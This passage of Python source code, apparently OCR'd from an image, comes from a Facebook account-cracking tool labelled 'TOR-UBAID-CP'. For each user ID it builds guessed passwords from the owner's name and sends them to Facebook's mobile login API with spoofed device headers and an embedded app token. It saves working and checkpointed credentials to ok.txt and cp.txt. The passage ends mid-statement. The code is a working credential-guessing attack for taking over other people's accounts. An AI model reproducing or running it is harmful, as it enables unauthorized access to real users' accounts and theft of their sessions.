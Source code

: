 												oks.append(uid+pass5)
											else:
												if "www.facebook.com" in data.json()['error_msg']:
													print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass5+"\033[0;97m")
													cp = open("cp.txt", "a")
													cp.write(uid+"|"+pass5+"\n")
													cp.close()
													cps.append(uid+pass5)
												else:
													pass6 = name.lower().split(' ')[1] + '12'
													api = 'https://b-api.facebook.com/method/auth.login'
													params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass6, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
													headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
													data = requests.get(api, params=params, headers=headers_)
													if "access_token" in data.text and "EAAA" in data.text:
														print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass6+"\033[0;97m")
														ok = open("ok.txt", "a")
														ok.write(uid+"|"+pass6+"\n")
														ok.close()
														oks.append(uid+pass6)
													else:
														if "www.facebook.com" in data.json()['error_msg']:
															print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass6+"\033[0;97m")
															cp = open("cp.txt", "a")
															cp.write(uid+"|"+pass6+"\n")
															cp.close()
															cps.append(uid+pass6)
														else:
															pass7 = name.lower()
															api = 'https://b-api.facebook.com/method/auth.login'
															params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass7, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}
															headers_ = {'x-fb-connection-bandwidth': str(random.randint(20000000.0, 30000000.0)), 'x-fb-sim-hni': str(random.randint(20000, 40000)), 'x-fb-net-hni': str(random.randint(20000, 40000)), 'x-fb-connection-quality': 'EXCELLENT', 'x-fb-connection-type': 'cell.CTRadioAccessTechnologyHSDPA', 'user-agent': _azimua, 'content-type': 'application/x-www-form-urlencoded', 'x-fb-http-engine': 'Liger'}
															data = requests.get(api, params=params, headers=headers_)
															if "access_token" in data.text and "EAAA" in data.text:
																print(" \033[1;32m[TOR-UBAID-CP] "+uid+" | "+pass7+"\033[0;97m")
																ok = open("ok.txt", "a")
																ok.write(uid+"|"+pass7+"\n")
																ok.close()
																oks.append(uid+pass7)
															else:
																if "www.facebook.com" in data.json()['error_msg']:
																	print(" \033[1;33m[TOR-UBAID-CP] "+uid+" | "+pass7+"\033[0;97m")
																	cp = open("cp.txt", "a")
																	cp.write(uid+"|"+pass7+"\n")
																	cp.close()
																	cps.append(uid+pass7)
																else:
																	pass8 = name.lower().split(' ')[0] + name.lower().split(' ')[1]
																	api = 'https://b-api.facebook.com/method/auth.login'
																	params = {'access_token': '350685531728%7C62f8ce9f74b12f84c123cc23437a4a32', 'format': 'JSON', 'sdk_version': '2', 'email': uid, 'locale': 'en_US', 'password': pass8, 'sdk': 'ios', 'generate_session_cookies': '1', 'sig': '3f555f99fb61fcd7aa0c44f58f522ef6'}